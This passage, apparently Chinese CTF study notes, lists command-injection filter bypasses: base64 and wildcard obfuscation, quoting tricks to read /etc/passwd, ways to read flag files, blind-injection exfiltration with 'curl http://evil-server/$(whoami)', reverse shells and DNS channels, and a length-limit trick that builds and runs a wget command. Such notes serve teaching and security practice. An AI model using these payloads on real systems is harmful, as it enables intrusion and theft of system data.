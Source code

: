    - base64 `echo "bHM=" | base64 -d`
   - `/?in/?s` => `/bin/ls`
   - 连接符 `cat /etc/pass'w'd`
   - 未定义的初始化变量 `cat$x /etc/passwd`







### 一些思路

#### 获得文件内容

```php
linux:
cat、tac、more、less、head、tail、nl、sed、sort、uniq、rev、strings、od、grep

php:
file_get_content()、show_source()、include()、require()、highlight_file()、文件包含+伪协议

假如冒号:和括号()被禁，可以使用一些无需括号的语言结构，如：
echo、print、isset、unset、include、require
还可以利用cp、mv将flag的内容写入其他文件然后访问
```



#### 无回显

- bash反弹shell

- DNS外带数据

- http外带

  `curl http://evil-server/$(whoami)``wget http://evil-server/$(whoami)`

- 无带外时利用 `sleep` 或其他逻辑构造布尔条件



#### 长度限制绕过

如下，通过命令行重定向来写入命令
利用ls按时间排序把命令写入文件a，再利用sh 执行

```
>wget\>foo.\>comls -t>ash a
```

> 摘自[4.5. 命令注入 — Web安全学习笔记 1.0 文档 (websec.readthedocs.io)](https://websec.readthedocs.io/zh/latest/vuln/cmdinjection.html)
>
> 在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 
>
> 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

